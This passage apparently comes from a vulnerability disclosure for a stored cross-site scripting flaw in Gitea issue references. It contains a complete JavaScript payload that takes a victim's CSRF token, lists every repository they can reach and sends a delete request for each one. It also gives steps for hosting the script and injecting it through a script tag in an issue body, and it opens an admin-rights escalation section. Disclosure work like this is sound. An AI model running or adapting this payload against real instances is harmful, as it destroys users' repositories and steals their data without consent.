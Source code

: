 Put this payload in its own file, upload it on your repo and inject it in an issue body using something like `<script src="http://mygitea.com/hacker/mysaferepo/raw/branch/master/exploit.js"></script>`.

Now the attacker can comment an issue/PR referencing this injected issue, and when someone put his mouse over the link, he's got all his repositories data stolen by the attacker !

### Delete all the repositories a user has access to

Imagine the scenario where an attacker wants to delete all your repositories you have access to. It proves the attack can break all your integrity.
This attack is achieved in 3 steps:
 - steal the CSRF token ;
 - get the list of the repositories ;
 - for each repository, delete it (at least try).

Let's write some JS code to do this:
```js
var AppURL = "http://mygitea.com";

var CSRF = (document.evaluate("/html/head/meta[9]", document, null, XPathResult.FIRST_ORDERED_NODE_TYPE, null).singleNodeValue).content;

var xhrGet = new XMLHttpRequest();
xhrGet.responseType = "json";
xhrGet.open("GET", AppURL + "/api/v1/repos/search", true);
xhrGet.onload = function() {
    if (xhrGet.readyState === XMLHttpRequest.DONE) {
        data = xhrGet.response.data;
        data.forEach(repo => {
            var xhrPost = new XMLHttpRequest();
            xhrPost.open("POST", repo.html_url + "/settings", true);
            xhrPost.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            xhrPost.send("_csrf=" + CSRF + "&action=delete&repo_name=" + repo.name)
        });
    }
}
xhrGet.send(null);
```

Put this payload in its own file, upload it on your repo and inject it in an issue body using something like `<script src="http://mygitea.com/hacker/mysaferepo/raw/branch/master/exploit.js"></script>`.

Now the attacker can comment an issue/PR referencing this injected issue, and when someone put his mouse over the reference, all the repositories he has access to gets deleted !

### Get the admin rights

Imagine the scenario where an attacker wants to get the admin rights. This proves a Privilege Escalation is possible.
This attack is achieved in 2 steps:
 - steal the CSRF token ;
 - give admin rights to the attacker (at least try).
